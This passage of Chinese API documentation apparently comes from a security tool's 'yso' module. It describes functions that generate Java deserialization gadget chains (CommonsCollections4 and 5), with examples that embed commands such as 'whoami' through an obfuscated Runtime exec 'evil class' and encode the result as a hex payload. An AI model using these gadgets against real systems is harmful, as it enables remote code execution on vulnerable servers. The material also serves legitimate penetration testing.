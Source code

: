 返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = "whoami"
className = "KEsBXTRS"
gadgetObj,err = yso.GetCommonsCollections4JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```


#### 定义

`GetCommonsCollections4JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsCollections5JavaObject

#### 详细描述
GetCommonsCollections5JavaObject 基于Commons Collections 2 序列化模板生成并返回一个Java对象。

这个函数接受一个命令字符串作为参数，并将该命令设置在生成的Java对象中。

cmd：要设置在Java对象中的命令字符串。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command := "ls" // 假设的命令字符串
javaObject, _ = yso.GetCommonsCollections5JavaObject(command)
gadgetBytes,_ = yso.ToBytes(javaObject)
hexPayload = codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```


#### 定义
